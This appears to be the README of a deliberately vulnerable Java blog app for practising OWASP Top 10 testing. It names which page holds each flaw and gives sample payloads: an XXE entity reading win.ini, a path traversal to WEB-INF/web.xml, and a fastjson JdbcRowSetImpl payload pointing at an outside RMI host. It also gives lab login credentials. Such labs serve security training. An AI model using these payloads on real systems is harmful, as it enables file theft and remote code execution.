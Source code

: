 # Blog
漏洞验证平台，主要为测试owasp top 10漏洞


# A1注入：search.htm

# A2失效的身份认证和会话管理：登录页无限制，可暴力破解
![image](https://user-images.githubusercontent.com/1740718/131211872-d518d5c2-44c7-4110-a53e-c6845272f71d.png)

# A3敏感信息泄漏：file.htm  download.htm?fileName=../WEB-INF/web.xml

# A4 XXE:login2.htm

xml=<!DOCTYPE%20foo%20[<!ELEMENT%20foo%20ANY><!ENTITY%20abc%20SYSTEM%20"file:///c:/windows/win.ini">]><login><username>%26abc;</username><password>fdsf</password></login>

# A5失效的访问控制：水平越权 管理后台-》读取博客

登录帐号：
test/test
tridentj/tridentj

# A6安全配置错误：暂无

# A7 XSS：search.htm  

&lt;img src="img/1.png" /&gt;

# A8不安全的反序列化:upload.htm (apache-commons-collections-3.2.1) resources目录下cc.bin windows下弹出计算器

# A9：fastjson 1.2.24前反序列化漏洞
http://localhost:8080/blog/updateUserInfo.htm

部署环境，参考resources/dependency/fastjson

json提交框中输入以下内容：
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.2.13.27:9999/Poc","autoCommit":true}
![image](https://user-images.githubusercontent.com/1740718/133755384-f98ca858-daa6-4642-99eb-47dacd51f858.png)



# A10：无

![image](https://user-images.githubusercontent.com/1740718/131211747-2be958b6-4c49-4a79-b442-2ed0787443de.png)
![image](https://user-images.githubusercontent.com/1740718/168001817-4b62b8ab-d417-42d5-8cf6-a1a3c9e4019a.png)

# log4j RCE
http://localhost:8080/blog/login.htm
![11](https://user-images.githubusercontent.com/1740718/168002930-6d0cc845-7e17-447c-a39d-149e9854f218.png)
![12](https://user-images.githubusercontent.com/1740718/168002945-20d2ded2-c65d-468d-9d87-29d47da625c8.png)




